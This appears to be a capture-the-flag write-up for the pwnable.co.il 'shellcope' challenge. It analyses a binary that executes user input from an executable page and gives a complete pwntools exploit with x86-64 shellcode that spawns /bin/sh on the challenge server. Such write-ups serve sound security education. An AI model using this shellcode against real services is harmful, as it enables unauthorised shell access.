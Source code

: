 ```yaml
---
title: "pwnable.co.il - shellcope"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "Shellcode customize challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> I just learned how to write shellcode!
> But i'm not sure where to store things if i don't have a stack... 

### Protections:
<pre>    
    Arch:       amd64-64-little
    RELRO:      <font color="#49FF6D">Full RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#49FF6D">PIE enabled</font>
    SHSTK:      <font color="#49FF6D">Enabled</font>
    IBT:        <font color="#49FF6D">Enabled</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Dump of the decompiled main function:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *dest; // [rsp+8h] [rbp-8h]

  dest = (char *)mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
  strcpy(dest, reset_shellcodes);
  fgets(dest + 48, 4047, stdin);
  mprotect(dest, 0x1000uLL, 5);
  ((void (*)(void))dest)();
  return 0;
}
```

`reset_shellcodes` points to a sequence of opcodes stored in the `.data` section:

[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)](/assets/images/ctf-writeups/pwnable.co.il/shellcope/reset_shellcodes_dump.png)

The main function maps a 0x1000 bytes (page size - 4096 in decimal) using `mmap()`, copies the predefined opcodes from `reset_shellcodes` into that page using `strcpy()`, 
then reads up to `4047` bytes from `stdin` into the page starting at offset 48 (appending the user provided instructions). 
It then calls `mprotect()` to set the page permissions to `read + execute` and finally jumps to the mapped page to run the combined shellcodes.

## Exploit
```python
from pwn import *

def main():
    ### context ###
    context.arch = 'amd64'  # Ensure 64-bit architecture

    ### run ###
    #p = process("./shellcope")
    p = remote("pwnable.co.il", 9001)

    ### payload start ###
    shellcode = """
    jmp code

    shell:
        .ascii "/bin/sh\\x00"     

    code:
        xor rsi, rsi          
        xor rdx, rdx             
        lea rdi, [rip+shell]     
        mov al, 0x3b             
        syscall               
    """

    payload = asm(shellcode)
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()
```
